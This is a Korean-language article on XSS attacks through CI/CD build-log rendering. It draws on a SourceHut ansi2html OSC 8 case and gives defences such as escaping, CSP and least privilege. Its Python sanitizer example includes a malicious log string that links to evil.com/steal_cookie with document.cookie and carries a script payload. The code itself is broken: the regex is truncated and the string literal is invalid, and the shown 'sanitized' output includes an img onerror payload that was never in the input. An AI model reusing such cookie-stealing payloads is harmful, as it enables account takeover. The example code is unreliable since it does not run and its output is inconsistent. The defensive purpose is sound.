

CI/CD (Continuous Integration/Continuous Deployment) 시스템의 빌드 로그는 개발 과정의 핵심적인 부분이지만, 공격자가 악성 코드를 삽입하여 사용자 계정을 탈취하거나 민감한 정보를 유출할 수 있는 XSS (Cross-Site Scripting) 취약점의 잠재적 진입점이 될 수 있습니다. 이는 특히 로그 렌더링 과정에서 외부 입력에 대한 부적절한 처리가 이루어질 때 발생하며, 2026년 현재에도 심각한 보안 위협으로 남아있습니다.

## CI/CD 로그 XSS 취약점의 본질

SourceHut 빌드 로그를 통한 계정 탈취 사례는 `ansi2html` 라이브러리의 XSS 취약점을 악용하여 빌드 로그에 삽성 문자열을 삽입, 해당 로그를 열람하는 사용자의 계정을 탈취한 사건입니다. 공격자는 OSC 8 (Operating System Command 8) 하이퍼링크 처리의 허점을 이용했으며, 이는 CI가 활성화된 공개 메일링 리스트에 패치를 보내는 방식으로 이루어졌습니다.

이러한 취약점은 CI/CD 시스템이 빌드 출력(예: 컴파일러 경고, 테스트 결과, 스크립트 출력)을 웹 인터페이스에 렌더링할 때 발생합니다. 만약 시스템이 로그 메시지에 포함된 특수 문자(HTML 태그, JavaScript 코드, ANSI 이스케이프 시퀀스 등)를 적절히 이스케이프(escape)하거나 정제(sanitize)하지 않으면, 공격자가 삽입한 스크립트가 사용자의 브라우저에서 실행될 수 있습니다. 이는 다음과 같은 심각한 결과를 초래할 수 있습니다:

*   **계정 탈취 (Account Takeover)**: 세션 쿠키 탈취를 통해 사용자 계정 접근.
*   **민감 정보 유출 (Sensitive Data Exfiltration)**: 브라우저에 저장된 정보(API 키, 토큰)를 공격자 서버로 전송.
*   **악성 콘텐츠 주입 (Malicious Content Injection)**: 웹 페이지 내용을 변조하여 피싱 공격 등 2차 공격 유도.

## GitHub Actions 및 유사 CI 시스템에서의 취약점 가능성

GitHub Actions와 같은 최신 CI 시스템은 빌드 로그를 웹 기반으로 편리하게 제공합니다. 이 과정에서 MDX (Markdown with JSX)와 같은 기술을 사용하여 로그를 풍부하게 렌더링하는 경우가 많습니다. 문제는 이러한 렌더링 파이프라인에서 사용자 입력이 포함된 로그 메시지에 대한 `sanitization` 또는 `escape` 처리 로직이 미흡할 경우 XSS 취약점이 발생할 수 있다는 점입니다. 특히 다음을 주의해야 합니다:

*   **사용자 정의 액션/스크립트의 출력**: 공격자가 제어할 수 있는 빌드 스크립트나 커밋 메시지를 통해 악성 문자열을 로그에 주입.
*   **외부 의존성 로그**: CI/CD 파이프라인에서 사용하는 외부 라이브러리나 도구가 생성하는 로그에 악성 코드가 포함될 가능성.
*   **ANSI 이스케이프 시퀀스**: SourceHut 사례처럼 터미널 출력 색상/스타일링을 위한 ANSI 코드가 웹 렌더링 시 예상치 못한 방식으로 파싱되어 XSS로 이어질 수 있습니다.
*   **MDX Validation 루프**: MDX 컴포넌트나 마크다운 파싱 과정에서 외부 입력 처리 방식이 취약할 경우, JSX 주입 공격이나 HTML 인코딩 우회를 통해 XSS가 발생할 수 있습니다.

## 보안 강화 전략

CI/CD 로그 XSS 취약점을 방지하기 위한 핵심 전략은 '모든 외부 입력을 신뢰하지 않는다'는 원칙 아래 강력한 입력 검증과 출력 이스케이프를 적용하는 것입니다.

### 1. 로그 입력 Sanitization 및 Output Escaping

가장 중요한 방어 메커니즘은 로그가 웹 인터페이스에 표시되기 전에 모든 잠재적 위험 요소를 제거하는 것입니다. HTML 태그, JavaScript 이벤트 핸들러, 스타일 속성 등을 제거하거나 안전한 형태로 변환해야 합니다. 이는 클라이언트 측과 서버 측 렌더링 모두에 적용되어야 합니다.

```python
import html
import re

def sanitize_log_message(log_message: str) -> str:
    """
    로그 메시지에서 잠재적인 XSS 공격을 방어하기 위해 HTML 및 ANSI 이스케이프 코드를 Sanitization합니다.
    """
    # 1. 기본적인 HTML 이스케이프
    # <, >, &, ", ' 문자를 HTML 엔티티로 변환
    escaped_message = html.escape(log_message, quote=True)

    # 2. ANSI 이스케이프 시퀀스 제거 (선택적: 로그 색상 유지를 원한다면 복잡한 파서 필요)
    # 일반적으로 모든 ANSI 이스케이프 시퀀스를 제거하는 것이 가장 안전함.
    # ESC[...m 형태의 색상 코드, ESC]8;;... 형태의 하이퍼링크 코드 등
    # SourceHut 사례의 OSC 8 하이퍼링크를 포함한 모든 SGR, CSI, OSC 시퀀스를 제거합니다.
    ansi_escape_pattern = re.compile(r'\[(?:\d{1,3}(?:;\d{1,3})*)?[mK]|\033\]8;;.*?(?:
    escaped_message = ansi_escape_pattern.sub('', escaped_message)

    # 추가적으로, 특정 URL 패턴 내의 `<script>` 같은 문자열도 감지하여 처리 가능
    # 예: URL 내부에 `javascript:` 스킴이 있을 경우 제거 또는 경고
    # 이 예제에서는 html.escape()가 대부분을 처리하므로 추가적인 복잡한 URL 파싱은 생략합니다.

    return escaped_message

# 예시: 악성 로그 메시지
malicious_log = "Build failed with error: 
    \033]8;;https://evil.com/steal_cookie?c="+document.cookie+"\nClick here\033]8;;\n 
    <script>alert('XSS!');</script> and some "

# Sanitization 적용
sanitized_output = sanitize_log_message(malicious_log)

print("Original:", malicious_log)
print("Sanitized:", sanitized_output)

# 출력 예시 (Mermaid 다이어그램 내 중괄호 처리)
# Original: Build failed with error: 
#     
#Click here
 
#     <script>alert('XSS!');</script> and some 
# Sanitized: Build failed with error: 
#     Click here 
#     &lt;script&gt;alert(&#x27;XSS!&#x27;);&lt;/script&gt; and some &lt;img src=&#x27;x&#x27; onerror=&#x27;alert(&#x22;Another XSS&#x22;)&#x27;&gt;
```

### 2. Content Security Policy (CSP) 적용

웹 애플리케이션에 엄격한 CSP를 적용하여 브라우저가 특정 출처의 스크립트만 실행하도록 제한할 수 있습니다. `script-src 'self' 'unsafe-inline'`과 같은 느슨한 정책은 피하고, 필요한 경우 해시나 Nonce를 사용하여 인라인 스크립트를 허용해야 합니다. `object-src 'none'`, `base-uri 'self'` 등도 포함하여 공격 표면을 최소화해야 합니다.

### 3. CI/CD 에이전트 및 런타임 환경 최소 권한 원칙 적용

CI/CD 파이프라인을 실행하는 에이전트나 컨테이너는 필요한 최소한의 권한만 가져야 합니다. 불필요한 네트워크 접근이나 파일 시스템 접근을 제한하여, 설령 XSS 공격이 성공하더라도 후속 공격의 파급력을 줄일 수 있습니다. 예를 들어, `actions/checkout`과 같은 액션은 필요한 권한만 부여하도록 설정하고, 토큰 스코프를 제한합니다.

### 4. MDX/Markdown 렌더러 보안 검토

MDX나 마크다운을 HTML로 변환하는 라이브러리(예: `remark`, `rehype`)를 사용하는 경우, XSS 필터링 플러그인(`rehype-sanitize`)을 반드시 적용해야 합니다. 특히 JSX 표현식(`{...}`)이나 HTML을 직접 삽입할 수 있는 기능은 신중하게 다루거나 비활성화해야 합니다.

### 5. 정기적인 보안 감사 및 테스트

코드 리뷰 시 로그 출력에 대한 보안 취약점 여부를 점검하고, SAST (Static Application Security Testing) 및 DAST (Dynamic Application Security Testing) 도구를 CI/CD 파이프라인에 통합하여 잠재적 XSS 취약점을 자동으로 감지하도록 해야 합니다.

## CI/CD 로그 처리 플로우와 XSS 취약점 지점



## 트레이드오프

*   **엄격한 Sanitization vs. 로그 가독성**: 로그의 모든 ANSI 색상 코드나 서식 지정을 제거하면 XSS 위험은 낮아지지만, 개발자가 익숙한 터미널 색상이나 강조 표시가 사라져 로그 분석이 어려워질 수 있습니다. 언제 좋고/언제 나쁜지: 중요한 프로덕션 시스템의 보안 로그에는 엄격한 Sanitization이 좋지만, 개발/디버깅 환경에서는 가독성을 위해 일부 안전한 서식을 허용하는 절충이 필요할 수 있습니다.
*   **Sanitization 성능 오버헤드 vs. 보안 강화**: 복잡한 로그를 실시간으로 Sanitization하는 것은 CPU 자원을 소모하며 로그 렌더링 지연을 유발할 수 있습니다. 언제 좋고/언제 나쁜지: 사용자 수가 많거나 로그 데이터가 방대한 시스템에서는 성능 최적화를 고려한 Sanitization이 중요하며, 보안이 최우선인 경우 성능 저하를 감수할 수 있습니다.
*   **오픈소스 Sanitization 라이브러리 vs. 커스텀 구현**: 이미 검증된 오픈소스 라이브러리(예: `dompurify` for JavaScript, `bleach` for Python)를 사용하는 것이 일반적으로 안전하고 효율적입니다. 하지만 특정 요구사항에 맞춰 커스텀 구현을 할 경우, 새로운 취약점을 도입할 위험이 있습니다. 언제 좋고/언제 나쁜지: 대부분의 경우 오픈소스 라이브러리가 좋지만, 매우 특수하고 고유한 로그 형식이나 렌더링 환경에서는 커스텀 구현이 불가피할 수 있으며, 이 경우 철저한 보안 감사와 테스트가 필수입니다.
*   **Whitelisting vs. Blacklisting**: 허용된 태그/속성만 통과시키는 화이트리스트 방식은 블랙리스트(알려진 악성 패턴 차단)보다 훨씬 안전하지만, 표현의 자유도를 제한합니다. 언제 좋고/언제 나쁜지: CI/CD 로그와 같이 내용 제어가 어려운 환경에서는 화이트리스트 방식이 보안에 강력하게 좋습니다. 마크다운처럼 다양한 서식이 필요한 경우 블랙리스트 기반 필터링이 필요할 수 있지만, 항상 우회 가능성이 존재하므로 주의해야 합니다.

## 실전 체크리스트

CI/CD 로그 XSS 취약점 점검 및 강화를 위해 다음 항목들을 확인하고 적용해야 합니다.

- [ ] CI/CD 시스템의 로그 렌더링 컴포넌트(웹 UI, API)가 모든 사용자 및 빌드 출력에 대해 HTML 인코딩을 기본으로 적용하고 있는지 확인합니다.
- [ ] 로그 렌더링 파이프라인에 ANSI 이스케이프 시퀀스(특히 OSC 8 하이퍼링크)를 안전하게 처리하거나 완전히 제거하는 로직이 구현되어 있는지 검토합니다.
- [ ] 웹 애플리케이션에 엄격한 Content Security Policy (CSP)를 배포하여, `script-src`, `object-src`, `base-uri` 등이 XSS 공격을 완화하도록 설정되었는지 확인합니다.
- [ ] GitHub Actions의 경우, `outputs`에 설정된 변수들이 HTML context로 렌더링될 가능성이 있다면, 해당 변수 값에 대한 명시적인 Sanitization을 적용하는지 검증합니다.
- [ ] MDX 또는 다른 마크다운 렌더러를 사용할 경우, `rehype-sanitize`와 같은 XSS 방어 플러그인이 적용되어 있고, 설정이 최신 보안 권고를 따르는지 확인합니다.
- [ ] 모든 CI/CD 파이프라인 실행 환경(컨테이너, 에이전트)이 최소 권한 원칙(Least Privilege)에 따라 구성되어 있으며, 불필요한 네트워크 접근이나 시스템 명령 실행이 제한되어 있는지 점검합니다.
- [ ] 정기적인 SAST/DAST 도구를 CI/CD 파이프라인에 통합하여 로그 처리 로직 및 웹 인터페이스에서 잠재적인 XSS 취약점을 자동으로 감지하고 보고하는지 확인합니다.